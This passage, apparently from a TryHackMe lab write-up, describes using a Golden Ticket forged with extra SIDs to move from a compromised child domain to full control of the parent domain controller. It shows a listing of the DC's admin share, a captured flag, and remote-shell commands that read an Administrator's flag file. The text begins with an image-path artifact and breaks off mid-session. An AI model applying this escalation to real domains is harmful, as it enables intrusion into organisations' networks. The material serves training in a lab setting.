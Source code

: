 This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:

```shell-session
C:\>dir \\thmrootdc.tryhackme.loc\c$\
 Volume in drive \\thmrootdc.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmrootdc.tryhackme.loc\c$

01/04/2022 08:47 AM 103 delete-vagrant-user.ps1
09/15/2018 08:19 AM <DIR> PerfLogs
03/21/2020 09:31 PM <DIR> Program Files
03/21/2020 09:25 PM <DIR> Program Files (x86)
04/23/2022 09:21 AM 58 root_dns_entries.csv
04/23/2022 09:22 AM 1,432 thm-network-setup-dc.ps1
04/25/2022 05:50 PM <DIR> tmp
04/27/2022 07:54 AM <DIR> Users
04/25/2022 05:50 PM <SYMLINKD> vagrant [\\vboxsvr\vagrant]
04/27/2022 06:29 PM <DIR> Windows
 3 File(s) 1,593 bytes
 7 Dir(s) 51,105,730,560 bytes free
```

This proves that we now have fully compromised the parent domain solely by compromising one of the child domains!

After following the walkthrough we get:

```
THM{Full.EA.Compromise}
```

![Pasted image 20250527155557.png](../../../IMAGES/Pasted%20image%2020250527155557.png)



[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt